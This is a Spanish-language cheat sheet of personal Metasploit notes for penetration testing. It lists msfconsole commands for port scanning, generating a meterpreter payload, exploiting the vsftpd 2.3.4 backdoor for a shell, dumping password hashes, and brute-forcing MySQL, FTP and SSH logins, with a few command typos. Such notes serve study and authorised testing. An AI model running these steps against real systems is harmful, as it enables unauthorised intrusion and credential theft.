 # Metasploit 

Metasploit es un framework para pentest y ataque.  
Tiene varias herramientas incorporadas.  

En Kali Linux : `/usr/share/metasploit-framework/`  

Comandos basicos  
```
service postgresql start
msfdb init
msfconsole
help
help search
search name:wordpress
searc portscan type:auxiliary  
```

Ejemplo:  
```
msfconsole -q
msf > use auxiliary/scanner/portscan/tcp
info
show options
show advanced
show targets
show evasion 
show payloads 
set RHOST 10.10.2.14
set PORTS 20-500
run
```

Payloads:  
`/usr/share/metasploit-framework/modules/payloads/`  

```
msfconsole -q
msf > use payload/windows/meterpreter/bind_tcp
show options
set RHOST ip
get RHOST
#unset RHOST
setg RHOST ip #global
getg RHOST
set LPORT 20-500
generate
```

Exploits:  
`/usr/share/metasploit-framework/modules/exploits/`  

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST ip
exploit

whoami
id ....
background
```

Encoders:  
`/usr/share/metasploit-framework/modules/encoders/`  

```
msf > show encoders
```

Post:  
`/usr/share/metasploit-framework/modules/post/`  

Primero se ejecuta un exploit por ejemplo con `exploit -j`  
Y queda corriendo una sesion que se puede ver con `sessions`  

Luego:  
```
msf > use post/linux/gather/hashdump
show options
set SESSION [NUMERO DE SESION]
exploit
```

Oneliner  
```
msfconsole -x "use exploit/unix/ftp/vsftp_234_backdoor; set RHOST 10.10.2.14; exploit -j"
msf xxxx > 
sessions
sessions -i 1
#start shell
uname -a
ifconfig
bg
```

Nmap
```
smf> search portscan type:aurixiliary
use auxiliary/scanner/portscan/syn
show options
set RHOST 10.10.2.10,14
run
```

MySQL:  
Primero buscar en gooogle y descargar lista de passwords de mysql.  
```
msf> services -h
services -p 3306
search mysql type:auxiliary
use auxiliary/scanner/mysql/mysql_version
show options 
setg RHOST 10.10.2.10,14
run

use auxiliary/scanner/mysql/mysql_login
show options
set BLANK_PASSWORDS true
set USERPASS_FILE Desktop/mysqlpass.txt
run
```

FTP  
```
msf> search name:ftp type:auxiliary
services -p 21
services -s ftp
use auxiliary/scanner/ftp/ftp_version
show options
run
#search version in google, to find vuln
back
use auxiliary/scanner/ftp/ftp_login
show options
set BLANK_PASSWORDS true
set USER_AS_PASS true
set USERPASS_FILE Destop/ftppass.txt
run
pushm
use auxiliary/scanner/ftp/anonymous
show options
run
```

SSH  
```
msf> search name:ssh type:auxiliary
use auxiliary/scanner/ssh/ssh_version
show options
run

pushm
use auxiliary/scanner/ssh/ssh_login
set USER_AS_PASS true
set BLANK_PASSWORDS true
set USERPASS_FILE Destop/ftppass.txt
run
```




